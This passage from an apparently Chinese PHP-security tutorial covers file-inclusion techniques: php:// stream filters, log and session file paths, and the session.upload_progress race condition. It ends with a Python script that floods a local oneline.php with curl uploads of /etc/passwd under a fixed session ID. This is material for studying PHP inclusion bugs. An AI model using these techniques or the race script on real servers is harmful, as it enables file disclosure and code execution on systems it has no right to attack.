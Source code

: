 利用条件：  
1、allow\_url\_include = On。  
2、对 allow\_url\_fopen 不做要求。

| 字符串过滤器            | 作用                               |
| ----------------- | -------------------------------- |
| string.rot13      | 等同于`str_rot13()`，rot13变换         |
| string.toupper    | 等同于`strtoupper()`，转大写字母          |
| string.tolower    | 等同于`strtolower()`，转小写字母          |
| string.strip_tags | 等同于`strip_tags()`，去除html、PHP语言标签 |</figure> <figure class="wp-block-table">

| 转换过滤器                                                             | 作用                                                |
| ----------------------------------------------------------------- | ------------------------------------------------- |
| convert.base64-encode & convert.base64-decode                     | 等同于`base64_encode()`和`base64_decode()`，base64编码解码 |
| convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码               |</figure> <figure class="wp-block-table">

| 压缩过滤器                             | 作用                                                                |
| --------------------------------- | ----------------------------------------------------------------- |
| zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。                                        |</figure> <figure class="wp-block-table">

| 加密过滤器      | 作用               |
| ---------- | ---------------- |
| mcrypt.*   | libmcrypt 对称加密算法 |
| mdecrypt.* | libmcrypt 对称解密算法 |</figure> 

很多时候，web 服务器会将请求写入到日志文件中，比如说 apache。在用户发起请求时，会将请求写入 access.log，当发生错误时将错误写入 error.log。默认情况下，日志保存路径在 /var/log/apache2/。

PHP 默认生成的 Session 文件往往存放在 /tmp 目录下。存储路径在phpinfo的`session.save_path`。

## 0x03 session.upload_progress.enable

session.upload\_progress.enabled这个参数在php.ini 默认开启，需要手动置为Off，如果不是Off，就会在上传的过程中生成上传进度文件，它的存储路径可以在phpinfo获取到。/var/lib/php/sess\_{your\_php\_session_id}

session.upload_progress.enabled : 是否启用上传进度报告(默认开启)

session.upload_progress.cleanup: 是否在上传完成后及时删除进度数据(默认开启),生成的文件会定时清空，不能写入恶意代码，这时候需要条件竞争。<a href="https://findneo.github.io/181123-one-line-php-challenge/" data-type="URL" data-id="https://findneo.github.io/181123-one-line-php-challenge/" target="_blank" rel="noreferrer noopener" rel="nofollow" >参考代码</a>示例如下：

```python
#loop.py
import os
from multiprocessing.dummy import Pool as threadpool

sessname="iamnotorange"
def runner(i):
	cmd="curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=%s' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking' -F 'file=@/etc/passwd' 1>/dev/null"%sessname
	os.system(cmd)
	os.system("xxd /var/lib/php/sessions/sess_%s "%sessname)
pool=threadpool(30)
result=pool.map_async(runner,range(30)).get(0xffff)
```
